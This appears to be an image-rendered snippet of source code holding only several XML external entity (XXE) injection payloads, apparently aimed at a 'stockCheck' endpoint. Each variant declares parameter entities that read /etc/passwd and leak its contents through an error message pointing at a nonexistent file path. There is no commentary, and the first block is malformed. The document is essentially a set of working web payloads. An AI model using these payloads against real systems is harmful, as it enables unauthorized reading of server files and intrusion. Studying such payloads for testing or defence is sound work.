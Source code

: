 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
<stockCheck><productId>%eval;</productId><storeId>%error;</storeId></stockCheck>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
]>
<stockCheck>
    <productId>%eval;</productId>
    <storeId>%error;</storeId>
</stockCheck>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;
]>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % hello "<!ENTITY &#x25; world SYSTEM 'file:///nonexistent/%file;'>">
    %hello;
    %world;
]>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % hello "<!ENTITY &#x25; world SYSTEM 'file:///nonexistent/%file;'>">
    %hello;
]>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % hello "<!ENTITY &#x25; world SYSTEM 'file:///nonexistent/%file;'>">
]>
```
